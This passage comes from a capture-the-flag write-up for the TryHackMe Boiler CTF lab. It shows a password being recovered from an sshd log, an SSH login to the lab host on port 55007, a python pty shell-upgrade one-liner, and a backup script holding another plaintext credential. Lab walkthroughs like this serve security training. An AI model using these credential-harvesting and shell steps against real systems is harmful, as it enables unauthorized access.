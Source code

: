Focus on the third line from the log → There is a creds of a user `basterd` with the password:

```tsx
Aug 20 11:16:35 parrot sshd[2451]: Accepted password for basterd from 10.1.1.1 port 49824 ssh2 #pass: superduperp@$$
```

**The interesting file name in the folder?**

```
log.txt
```

# Gain Access

Now we have the password of user `basterd` → It’s time to ******ssh****** to the target:

```tsx
┌──(kali㉿kali)-[~/TryHackMe/BoilerCTF]
└─$ ssh basterd@10.10.89.79 -p 55007
The authenticity of host '[10.10.89.79]:55007 ([10.10.89.79]:55007)' can't be established.
ED25519 key fingerprint is SHA256:GhS3mY+uTmthQeOzwxRCFZHv1MN2hrYkdao9HJvi8lk.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.89.79]:55007' (ED25519) to the list of known hosts.
basterd@10.10.89.79's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

8 packages can be updated.
8 updates are security updates.

Last login: Thu Aug 22 12:29:45 2019 from 192.168.1.199
$ id
uid=1001(basterd) gid=1001(basterd) groups=1001(basterd)
```

********Note********: Remember to define the specific port `55007` because the default port for ******ssh****** service (`22`) does not open.

I export the interactive shell for comfortable view with `python`:

```tsx
$ python3 -c "import pty;pty.spawn('/bin/bash')"
basterd@Vulnerable:~$
```

Take a look at the current directory and you would simply find the ****************bash**************** file named `backup.sh`:

```bash
basterd@Vulnerable:~$ ls -l
total 4
-rwxr-xr-x 1 stoner basterd 699 Aug 21  2019 backup.sh
basterd@Vulnerable:~$ cat backup.sh 
REMOTE=1.2.3.4

SOURCE=/home/stoner
TARGET=/usr/local/backup

LOG=/home/stoner/bck.log
 
DATE=`date +%y\.%m\.%d\.`

USER=stoner
#superduperp@$$no1knows
```